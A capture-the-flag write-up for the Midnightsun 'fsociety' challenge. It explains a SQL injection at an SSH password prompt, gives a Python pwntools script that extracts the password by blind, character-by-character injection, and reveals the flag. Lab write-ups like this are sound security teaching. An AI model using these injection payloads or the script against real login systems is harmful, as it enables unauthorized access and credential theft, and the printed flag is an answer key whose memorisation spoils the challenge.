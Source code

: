 # fsociety

The fsociety have a vulnerability in their server login backend, hack them to get elliot's password!

Service: ssh -p2223 fsociety-01.play.midnightsunctf.se 

Author: me@martincernac.cz is available for questions in MidnightsunCTF Discord 

## Challenge

Connecting to the ssh endpoint gives us the following prompt:

```
-> % ssh -p2222 elliot@fsociety-02.play.midnightsunctf.se
whiterose hot-standby PHP+MySQL SSH Server
elliot@fsociety-02.play.midnightsunctf.se's password:
```

Entering the incorrect password gives us:

```
-> % ssh -p2222 elliot@fsociety-01.play.midnightsunctf.se
whiterose hot-standby PHP+MySQL SSH Server
elliot@fsociety-01.play.midnightsunctf.se's password:
Permission denied, please try again.
elliot@fsociety-01.play.midnightsunctf.se's password:
```

## Solution

The prompt tells us that the challenge uses MySQL.
We can attempt a SQL injection on the login.

Using `' OR '1'='1` as the password gives us the following:

```



    .o88o.                               o8o                .
    888 `"                               `"'              .o8
   o888oo   .oooo.o  .ooooo.   .ooooo.  oooo   .ooooo.  .o888oo oooo    ooo
    888    d88(  "8 d88' `88b d88' `"Y8 `888  d88' `88b   888    `88.  .8'
    888    `"Y88b.  888   888 888        888  888ooo888   888     `88..8'
    888    o.  )88b 888   888 888   .o8  888  888    .o   888 .    `888'
   o888o   8""888P' `Y8bod8P' `Y8bod8P' o888o `Y8bod8P'   "888"      d8'
                                                                .o...P'



            Who are you? You're not one of us. No shell for you.

```

Based on the challenge description, the flag is the password.

Using a query like `' OR password LIKE BINARY 'a%`, we can determine the starting characters of the flag.
If our prefix matches, we will successfully login.
Otherwise, we get an error message.

We have a boolean output in the form of whether or not we successfully login, and we can find the flag 1 character at a time through a blind SQL injection.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *

password = 'midnight{'
win = False
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890-}"

char = alphabet[0]

def nextchar(char):
    i = alphabet.index(char)
    i += 1

    return alphabet[i]

def guess(char):
    return "' OR password LIKE BINARY '{}%".format(password + char)

while not win:
    sqli = guess(char)

    print(sqli)
    try:
        io = ssh(
                host = 'fsociety-02.play.midnightsunctf.se',
                port = 2222,
                user = 'elliot',
                password = sqli,
                )
        io.close()

        password += char
        char = alphabet[0]
    except:
        char = nextchar(char)
        if char == '}':
            win = True
            password += char

print(password)
```

## Flag

`midnight{BA053FFB-CC3C-4AB7-9A85-15A594CC43E9}`

